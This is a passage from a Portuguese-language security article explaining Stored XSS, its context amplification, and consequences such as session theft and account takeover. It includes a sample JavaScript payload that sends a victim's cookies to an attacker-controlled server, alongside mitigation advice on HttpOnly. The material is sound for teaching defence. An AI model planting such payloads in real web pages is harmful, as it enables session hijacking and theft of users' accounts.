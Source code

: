 A implicação é clara: um atacante não precisa encontrar um ponto de injeção que seja vulnerável em um contexto de saída específico. Ele precisa apenas encontrar qualquer ponto de entrada que armazene seu *payload*. A partir daí, o *payload* armazenado pode ser "refletido" em dezenas de contextos de saída diferentes por toda a aplicação. A defesa precisa ser perfeita em todos esses pontos de saída, enquanto o ataque precisa de apenas um ponto de saída falho para ter sucesso. Esta "amplificação de contexto" aumenta exponencialmente a superfície de ataque e a probabilidade de uma exploração bem-sucedida.

## 3. O Impacto Real: Consequências de um Ataque Bem-Sucedido

As consequências de um ataque de *Stored XSS* bem-sucedido são vastas e podem variar de um simples incômodo a um comprometimento completo da segurança da aplicação e de seus usuários. O impacto é determinado pela natureza da aplicação, pelos dados que ela processa e pelos privilégios dos usuários afetados.

### 3.1. Roubo de Sessão e Credenciais

O objetivo mais comum e imediato de um ataque XSS é o sequestro da sessão do usuário, geralmente alcançado através do roubo de *cookies* de sessão. O *script* executado no navegador da vítima pode acessar o `document.cookie` e exfiltrar seu conteúdo para um servidor controlado pelo atacante. Com o *cookie* de sessão em mãos, o atacante pode se passar pela vítima e obter acesso não autorizado à sua conta.

Um *payload* típico para roubo de *cookies* pode ser tão simples quanto criar um elemento de imagem cujo `src` aponta para o servidor do atacante, com os *cookies* anexados como um parâmetro de consulta:

```javascript
<script>
  var img = new Image();
  img.src = "http://attacker-controlled-server.com/log?cookie=" + btoa(document.cookie);
</script>
```

Uma mitigação crucial contra essa técnica específica é o uso do atributo de *cookie* `HttpOnly`. Quando um *cookie* é marcado com este atributo, ele não pode ser acessado através de APIs do lado do cliente, como `document.cookie`. Isso impede que *scripts* maliciosos leiam e exfiltrem o *token* de sessão, tornando o sequestro de sessão direto muito mais difícil. No entanto, é importante notar que, mesmo com `HttpOnly` ativado, o atacante ainda pode executar outras ações maliciosas no contexto da sessão da vítima.

### 3.2. Ações Não Autorizadas e Comprometimento de Contas

Com a capacidade de executar JavaScript no navegador da vítima, o atacante pode realizar programaticamente qualquer ação que o usuário legítimo poderia realizar na aplicação. Isso inclui, mas não se limita a:

- Modificar dados do usuário (por exemplo, alterar o e-mail ou a senha da conta).
- Realizar transações financeiras em nome da vítima.
- Excluir ou corromper dados.
- Publicar conteúdo (por exemplo, *spam* ou desinformação) a partir da conta da vítima.

Se a vítima do ataque for um usuário com privilégios elevados, como um administrador do sistema, o impacto é catastrófico. O atacante pode usar a sessão do administrador para criar novas contas de administrador, visualizar ou modificar os dados de todos os usuários, e potencialmente obter controle total sobre a aplicação.
